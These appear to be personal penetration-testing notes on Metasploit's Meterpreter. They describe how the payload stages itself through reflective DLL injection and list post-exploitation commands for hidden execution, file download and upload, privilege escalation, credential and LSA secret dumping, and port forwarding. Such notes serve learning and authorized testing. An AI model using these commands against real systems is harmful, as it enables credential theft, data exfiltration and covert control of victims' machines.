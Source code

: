 Meterpreter payload uses `DLL Injection` to ensure the connection to the victim host is stable and difficult to detect using simple checks and can be configured to be persistent across reboots or system changes.

When the exploit is completed, the following events occur:

- The target executes the initial stager. This is usually a bind, reverse, findtag, passivex, etc.
- The stager loads the *DLL prefixed with Reflective*. The Reflective stub handles the loading/injection of the DLL.
- The Meterpreter core initializes, establishes an *AES-encrypted* link over the socket, and sends a GET. Metasploit receives this GET and configures the client.
- Lastly, Meterpreter loads extensions. It will always load `stdapi` and load `priv` if the module gives administrative rights. All of these extensions are loaded over AES encryption.

0) **idletime**
	Check how long the user has been idle for.

1) **getuid**
	To Get *PC & Username*
![[Pasted image 20230125093847.png]]

2) **download** [filename]
	%%The File Will Be Downloaded In The Folder You Opened The Meterpreter Shell%%
	![[Pasted image 20230125151004.png]]

3) **upload** [filename]  [pathname]
![[Pasted image 20230125151807.png]]

4) **execute -H -f [filename]**
`-H` : Make the process hidden

5) **webcam_list** 
	Lists The *Webcams Present*
	![[Pasted image 20230125152029.png]]

5) **netstat**
6) **ps** : To See All The *Running Processes*
7)  `migrate -N [process_name]`
Migrate to a different process. Use this if you can't run basic commands like `getuid` in the meterpreter shell.

8) **getsystem** : ***Try*** To *Escalate Priviliges*
9) **shell**
	Get The *Shell* Of That *Specific OS*
	![[Pasted image 20230125152611.png]]

9) `background or bg or CTRL+Z`
	Background the process!

10) **search -f .txt**
```meterpreter
OPTIONS:

    -d   The directory/drive to begin searching from. Leave empty to search all drives. (Default: )
    -f   The file pattern glob to search for. (e.g. *secret*.doc?)
    -h        Help Banner.
    -r   Recursivly search sub directories. (Default: true)

Ex: search -d c:\\documents\ and\ settings\\administrator\\desktop\\ -f *.pdf
```

11) `load powershell`
Load powershell in session

12) Load different channels (shells)
```sh
# Show all channels
channel -l

# Select a channel (shell)
channel -i 1
```

---
# Credential Dumping
```meterpreter
// For Password Hash dumping
meterpreter > hashdump
OR
meterpreter > lsa_dump_sam

// For LSA secrets dump
meterpreter > lsa_dump_secrets
```


# Port Forwarding
```meterpreter
// Use -h for help
meterpreter > portfwd add -l 3389 -p 3389 -r 172.16.5.200
```